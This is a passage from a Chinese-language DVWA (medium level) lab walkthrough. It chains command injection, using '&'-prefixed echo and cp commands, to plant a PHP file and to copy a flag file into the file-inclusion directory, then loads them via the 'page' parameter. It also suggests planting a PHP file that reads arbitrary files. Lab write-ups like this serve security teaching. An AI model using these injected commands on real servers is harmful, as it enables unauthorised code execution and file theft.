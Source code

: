 接著產生一隻檔案到 `vulnerabilities/fi` 裡測試看看

```bash
& echo "<?php phpinfo(); ?>" > ../fi/yo.php
```

```bash
http://localhost:8086/vulnerabilities/fi/yo.php
```

![Untitled](DVWA%20-%20medium%20e321411a64fa4f7c9a4e674a9a8bf23e/Untitled%2026.png)

```bash
http://localhost:8086/vulnerabilities/fi/?page=yo.php
```

![Untitled](DVWA%20-%20medium%20e321411a64fa4f7c9a4e674a9a8bf23e/Untitled%2027.png)

### Done

做到這邊突然想到，既然它只讀取 `fi` 資料夾的檔案，那我們直接把 `http://localhost:8086/hackable/flags/fi.php` 複製到`http://localhost:8086/vulnerabilities/fi/` 不就好了😹

當然你也可以產生一隻可以讀取任何檔案的 php file 在 `http://localhost:8086/vulnerabilities/fi/` 資料夾內，再讓它讀取任何檔案

```bash
& cp ../../hackable/flags/fi.php ../fi/
```
